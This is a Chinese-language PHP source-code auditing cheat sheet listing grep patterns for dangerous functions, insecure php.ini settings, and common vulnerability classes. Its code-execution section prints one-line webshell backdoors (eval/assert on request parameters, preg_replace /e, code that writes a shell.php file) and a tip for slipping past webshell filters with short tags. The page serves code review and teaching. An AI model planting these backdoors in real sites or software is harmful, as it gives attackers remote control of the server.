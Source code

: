 PHP源码审计
========================================

概览
----------------------------------------
 |php1|

常用正则
----------------------------------------
::

	常用正则：
	$_SERVER|$_COOKIE|$_REQUEST|$_GET|$_POST 获取用户输入
	eval(|assert(|system( 命令执行
	require(|require_once(|include(|include_once( 文件包含
	file_get_contents(|file(|fopen(|highlight_file(|show_source(|unlink 文件读取，写入，删除
	simplexml_load_string XXE
	unserialize 反序列化漏洞

常见配置
----------------------------------------
- 配置文件
	+ php.ini
	+ .user.ini
- 相关配置
	+ 全局变量 ``register_globals = Off``
		::
	
			某些程序如osc需要启用全局变量，这个设置的作用是关闭自动注册全局变量，在设置为On时、
			php会将$POST,$GET,$COOKIE,$ENV,$SESSION数组中的$key=>$value直接注册为变量
			（$POST['username']就会被注册为$username）.
			
	+ 短标签 ``short_open_tag = On``
		::
		
			这个设置决定是否允许使用php代码开始标志的缩写形式（<? ?>）。如果禁用了，必须使用必
			须使用php代码开始标志的完整形式（<?php ?>）。这个指令也会影响到缩写形式<?=,它和
			<?echo等价。使用此缩写需要short_open_tag的值为On，从php5.4.0起，<?=总是可用的。
			（写shell的时候会判断标签如果有<?php?>就会拦截，如果开启了短标签就可以考虑用缩写）
	
	+ 安全模式 ``safe_mode = Off``
		::
		
			PHP的安全模式能够控制一些php中的函数，比如system，同时把很多文件操作函数进行了权限控制，
			也不允许某些关键文件的文件，比如/etc/passwd，如: safe_mode_exec_dir = /var/www/html，
			system和其他程序执行函数将拒绝启动不在此目录中的程序。
			但默认的php.ini是没有打开安全模式的（这个特性自php5.3.0起废弃并在php5.4.0起移除）
			
	+ 上传文件及目录权限 ``file_uploads = On ,upload_max_filesize = 8M``
		::
		
			文件上传临时目录: upload_tmp_dir =上传文件临时保存的目录，需要可写，如果不设置，
			则采用系统临时目录。（/tmp，C:WindowsTemp）
			
	+ 错误信息 ``display_error = On``
	+ 魔术引号 ``magic_quotes = On`` 
		::
		
			当magic_quotes为On所有的'(单引号)、"(双引号)、(反斜杆)、和NULL都被一个反斜杆自动转义.
		
	+ 远程文件
		::
		
			是否允许打开远程文件: allow_url_fopen = On
			默认封装协议提供用ftp和http协议来访问远程文件，一些扩展库例如zlib可能会注册更多的封装协议
			<?php echo file_get_contents("http://php.net"); ?>
			
			是否允许包含远程文件: allow_url_include = Off
			本选项激活允许include，include_once,require,require_once等函数使用url形式的fopen封装协议。
			简单来说就是可以包含远程文件。 <?php include("http://php.net"); ?>
			

执行函数总结
-----------------------------------------
- eval
	+ 函数把字符串按照PHP代码来计算
	+ 如常见的一句话后门程序：``<?php eval($_POST[cmd])?>``
- assert
	+ 与eval类似，字符串被assert当做PHP代码来执行
	+ 示例代码：``<?php //?cmd=phpinfo assert($_REQUEST[cmd]); ?>``
- reg_replace
	+ preg_replace函数原本是执行一个正则表达式的搜索和替换，但因为存在危险的/e修饰符，使preg_replace将$replacement参数当作PHP代码.
	+ ``<?php //?cmd=phpinfo @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>``
- create_function
	+ create_function主要用来创建匿名函数，如果没有严格对参数传递进行过滤，攻击者可以构造特殊字符串传递给create_function执行任意命令。
	+ ``<?php //?cmd=phpinfo; $func =create_function('',$_REQUEST['cmd']); $func; ?>``
- array_map
	+ array_map函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新值的数组。回调函数接受的参数数目应该和传递给 array_map函数的数组数目一致。
	+ ``<?php //?func=system&cmd=whoami $func=$GET['func']; $cmd=$GET['cmd']; $array[0]=$cmd; $new_array=array_map($func,$array); //print_r($new_array); ?>``
- call_user_func/call_user_func_array 
	+ call_user_func把第一个参数作为回调函数调用,其余参数是回调函数的参数。
	+ ``<?php //?cmd=phpinfo @call_user_func(assert,$_GET['cmd']); ?>``
	+ call_user_func_array调用回调函数，并把一个数组参数作为回调函数的参数.
	+ ``<?php //?cmd=phpinfo $cmd=$_GET['cmd']; $array[0]=$cmd; call_user_func_array("assert",$array); ?>``
- array_filter
	+ 依次将 array数组中的每个值传递到callback函数。如果 callback函数返回true，则array数组的当前值会被包含在返回的结果数组中。数组的键名保留不变。
	+ ``<?php //?func=system&cmd=whoami $cmd=$GET['cmd']; $array1=array($cmd); $func =$GET['func']; array_filter($array1,$func); ?>``
- usort、uasort
	+ usort通过用户自定义的比较函数对数组进行排序。
	+ uasort使用用户自定义的比较函数对数组中的值进行排序并保持索引关联。
- 文件操作函数
	+ file_put_contents函数把一个字符串写入文件中.
	+ ``<?php $test='<?php eval($_POST[cmd]);?>'; file_put_contents('test1.php',$test); ?>`` 
	+ ``<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>'); ?>``
- 动态函数
	+ 函数由字符串拼接而成。
	+ ``<?php //?a=assert&b=phpinfo $GET['a']($GET['b']); ?>``

XSS漏洞
-----------------------------------------
- 反射型
	+ 反射型xss审计的时候基本的思路都一样，通过寻找可控没有过滤（或者可以绕过）的参数，通过echo等输出函数直接输出。寻找的一般思路就是寻找输出函数，再去根据函数寻找变量。一般的输出函数有这些：print , print_r , echo , printf , sprintf , die , var_dump ,var_export。
- 存储型
	+ 存储型xss会在数据库“中转”一下，主要审计sql语句update ,insert更新和插入。
- DOM
	+ 通过访问document.URL 或者document.location执行一些客户端逻辑的javascript代码。

SQL注入漏洞
-----------------------------------------
- 通过$_GET,$_POST等传参追踪数据库操作
- 通过select , delete , update,insert 数据库操作语句反追踪传参

代码执行审计
-----------------------------------------
- 代码执行注入就是 在php里面有些函数中输入的字符串参数会当做PHP代码执行。

命令执行审计
-----------------------------------------
- 命令执行就是可以执行系统命令（cmd）或者是应用指令（bash），这个漏洞也是因为传参过滤不严格导致的。
- php可执行命令的函数有这些：system();exec();shell_exec();passthru();pcntl_exec();popen();proc_open(); 

文件包含审计
-----------------------------------------
- 文件包含有这么两种：本地包含（LFI）和远程包含(RFI)。
- 四个包含函数：include();include_once();require();require_once()

文件上传审计
-----------------------------------------
- 函数move_uploaded_file();


.. |php1| image:: ../images/php.png